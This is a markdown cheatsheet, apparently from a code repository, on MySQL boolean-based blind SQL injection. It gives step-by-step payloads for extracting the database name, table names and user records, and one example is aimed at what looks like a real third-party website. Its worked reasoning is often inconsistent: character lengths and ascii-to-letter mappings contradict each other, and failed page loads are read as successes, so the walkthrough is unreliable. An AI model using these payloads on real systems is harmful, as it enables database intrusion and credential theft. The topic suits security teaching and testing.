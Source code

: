 # MySQL Boolean Based Blind SQL Injection Cheatsheet

## Identifying the vulnerability

Normally in Blind SQLi, you can't really see the output of queries you enter. In this case, the only way to verify about the vulnerability, is by looking if the website loads successfuly or not/partially.

Use the following queries to identify the website behaviour:  

```http://domain.com/index.php?id=1' AND 4570=4570 AND 'ZeoB'='ZeoB```  
Page fully loads successfuly.  

```http://www.nttbworld.com/tour-details.php?id=65' AND 4570=4570 AND 'ZeoB'='ZeoBFalse```  
Page will partially load or it will not even load.  

## Retrieving database

**Retrieving the length of database name**

The given query will verify if database has 14 characters.  
```http://domain.com/index.php?id=1' AND (length(database())) = 15 --+```  
If website partially loads or doesn't load, it means that database is not 10 characters long.

The given query will verify if database has 9 characters.  
```http://domain.com/index.php?id=1' AND (length(database())) = 11 --+```  
Page loads successfully. Database name is 11 characters long.

**Retrieving the database name**

This method is slow, because we have to hit-or-miss for every character of the database. Let's take a look below. The below table, will help us convert ascii to string.  

![ascii_table](https://imgs.chip.de/ZBgGgeBx4QyqnxIERLeIjZ0BoXg=/1200x674/filters:format(jpeg):fill(fff,true)/www.chip.de%2Fii%2F8%2F1%2F7%2F6%2F6%2F1%2F0%2F4%2FUnbenannt-41a448c7fdc8d42f.jpg)

The given query will define is the first character of database name is 111 (o)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 110 --+```  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.  

The given query will define is the first character of database name is 110 (n)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 109 --+```  
Website loads fully, this means the first character of database is **n**.

Continue enumerate the second character of database name.  

The given query will define is the first character of database name is 98 (h)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 97 --+```  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.  


The given query will define is the first character of database name is 116 (t)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 115 --+```  
Website loads fully, this means the second character of database is **t**.

Continue doing the same process over and over until you find all 11 characters.  

1st character: 110 -> **n**  
2nd character: 116 -> **t**  
3rd character: 116 -> **t**  
4th character: 104 -> **h**  
5th character: 119 -> **w**  
6th character: 102 -> **f**  
7th character: 105 -> **i**  
8th character: 57 -> **9**  
9th character: 95 -> _  
10th character: 100 -> **d**  
11th character: 98 -> **b**  

All 11 charachters combined together will be the database name: **ntthwfi9_db**

**Retrieving length of table name**

Given query will test the condition whether the length of string for the first table is equal than 4 or not.  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 4 --+```

The website didn't load properly, so let's try if the length is 5 characters:  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 5 --+```  
The website loads fully, so the length of the first table name is 5.  

**NOTE:** You can enumerate the others table too, by changing the number value in this part of payload: (limit **0**,1). Simply replace it with another number. For example, let's see if 4th column has 6 characters:  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 3,1))) = 6 --+```  

**Retrieving name of table name**  

On this case, I will enumerate the the first column.
Let's find the first character of table:  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 108 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 114 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 116 --+```  
Website fully loads, it means the first character is ascii 117 (u).  


Let's find the last character of table (5th character):  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 96 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 105 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 114 --+```  
Website fully loads, it means the first character is ascii 115 (s).  

Keep doing the same process for the other characters, until you find all the characters.  

1st character: 110 -> **u**  
2nd character: 115 -> **s**  
3rd character: 101 -> **e**  
4th character: 114 -> **r**  
5th character: 115 -> **s**  

All 5 charachters combined together will be the first table name: **users**

**Retrieve length of column name**  

Using the same method as before, enumerate the length of column name.

Given below query will test for string length is equal to 6 or not:  
```' AND (length((select username from users limit 0,1))) = 6 --+```  
Website doesn't load properly, column is not 6 characters long.  

Given below query will test for string length is equal to 4 or not:  
```' AND (length((select username from users limit 0,1))) = 4 --+```  
Website fully loads, column is 6 characters long.  

Using the same method, you can also enumerate other columns.

Enumerate the length of second column if it is 6 or not:  
```' AND (length((select username from users limit 1,1))) = 6 --+```  

Enumerate the length of third column if it is 5 or not:  
```' AND (length((select username from users limit 2,1))) = 5 --+```  

And so on...

**Retrieve column name**

Given below query will test if the first character of the first column name is ascii 101 (e):  
```' AND (ascii(substr((select username from users limit 0,1) ,1,1))) > 100 --+```  
Website doesn't load properly, first char is not **e**.  

Given below query will test if the first character of the first column name is ascii 112 (p):  
``' AND (ascii(substr((select username from users limit 0,1) ,1,1))) > 111 --+``  
Website doesn't load properly, first char is **p**.  

Given below query will test if the second character of the first column name is ascii 97 (a):  
``' AND (ascii(substr((select username from users limit 1,1) ,1,1))) > 96 --+``  
Website doesn't load properly, second char is **a**.  

Given below query will test if the third character of the first column name is ascii 115 (p):  
``' AND (ascii(substr((select username from users limit 2,1) ,1,1))) > 114 --+``  
Website doesn't load properly, third char is **s**.  

Given below query will test if the fourth character of the first column name is ascii 115 (p):  
``' AND (ascii(substr((select username from users limit 3,1) ,1,1))) > 114 --+``  
Website doesn't load properly, fourth char is **s**.  

1st character: 110 -> **p**  
2nd character: 97 -> **a**  
3rd character: 115 -> **s**  
4th character: 115 -> **s**  

All 4 charachters combined together will be the first table name: **pass**

